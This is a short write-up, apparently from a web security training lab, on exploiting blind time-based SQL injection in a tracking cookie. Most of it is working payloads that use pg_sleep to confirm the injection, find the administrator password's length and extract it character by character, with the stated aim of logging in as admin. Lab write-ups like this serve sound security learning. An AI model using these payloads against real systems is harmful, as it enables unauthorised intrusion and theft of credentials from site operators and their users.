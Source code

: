 # Lab: Blind SQL injection with time delays and information retrieval

Vulnerable Parameter :  Tracking Cookie

End Goals :

- Exploit time-based sqli
- Extract admin credentials
- Login as admin

Analysis :

select somestuff from trackingTable where trackingId = 'value';

1- Confirm that the parameter is vulnerable to sqli

value = ' ||  '(select pg_sleep(10) ) ' -- -> didn't work , because we was concatinating the command as a string and didn't got executed as a sql command

`'+||++pg_sleep(10)+--` -> this payload got actually executed as a sql command

2-determin the length of the password

`'+||++(pg_sleep(10))+--` -> To extract infos from the database i think the only way to do it is to brute force the data and then compare it , in case we are right
then -> sleep (n) , else -> don't sleep

select++case+when+(length(password)%3d'1')+then+pg_sleep(1)++else+'' +end+from+users+where+username%3d'administrator'+

`'+||++(select++case+when+(length(password)%3d'20')+then+pg_sleep(10)++else+'' +end+from+users+where+username%3d'administrator'+)+--` -> Sleeped for 10 seconds -> the length of the password for the administrator is = 20

3- Extract admin password

+union+select++case+when+(substr(password,1,1)%3d'2')+then+pg_sleep(5)+else+''+end+from+users+where+username%3d'administrator'+-- -> base payload

substr("string" , start_position , size)

payload :

' || (select case when (substr(password,1,1)='2') then pg_sleep(5) else '' end from users where username='administrator' ) --
